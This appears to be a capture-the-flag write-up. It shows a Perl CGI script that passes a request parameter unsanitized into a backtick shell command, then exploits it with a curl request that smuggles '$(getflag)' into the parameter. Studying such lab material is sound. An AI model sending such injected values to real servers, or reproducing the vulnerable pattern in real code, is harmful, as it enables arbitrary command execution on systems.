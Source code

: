 ls 
./level04.pl
cat level04.pl
output :
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
# This line imports the CGI module, specifically the param function, which is used to retrieve parameters sent to the CGI script. The CGI module is used for handling Common Gateway Interface (CGI) operations, which are used for web scripting.
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
# This block defines a subroutine named x.
# sub x { ... }: The sub keyword is used to define a subroutine.
# $y = $_[0];: This assigns the first argument passed to the subroutine to the variable $y. The special array @_ contains all the arguments passed to the subroutine, and $_[0] is the first element.
# print `echo $y 2>&1`;: This uses backticks to execute a shell command. The command is echo $y, which echoes the value of $y. The 2>&1 part redirects standard error (file descriptor 2) to standard output (file descriptor 1), so any error messages will be included in the output. The result of this command is then printed to the web page.
x(param("x"));

curl localhost:4747

ANALYSE PERL CODE :

curl 'localhost:4747/?x=$(getflag)'

This script is vulnerable to command injection. Since it directly uses the parameter value in a shell command without any sanitization or validation, an attacker could potentially execute arbitrary commands on the server. This is a major security risk.
